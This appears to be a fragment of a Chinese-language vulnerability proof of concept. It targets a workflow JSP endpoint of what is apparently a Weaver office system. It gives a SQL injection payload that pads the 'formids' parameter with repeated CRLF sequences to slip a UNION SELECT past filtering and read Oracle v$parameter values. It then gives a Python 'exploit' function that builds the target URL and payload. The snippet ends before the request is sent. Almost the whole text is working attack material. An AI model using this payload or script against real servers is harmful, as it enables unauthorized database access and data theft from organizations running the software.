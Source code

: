 ```
formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1
```  
  
4.漏洞POC  
```
import requests
import sys

headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Content-Type': 'application/x-www-form-urlencoded'
}

def exploit(url):
    target=url+'/mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333'
    payload="formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1"
```
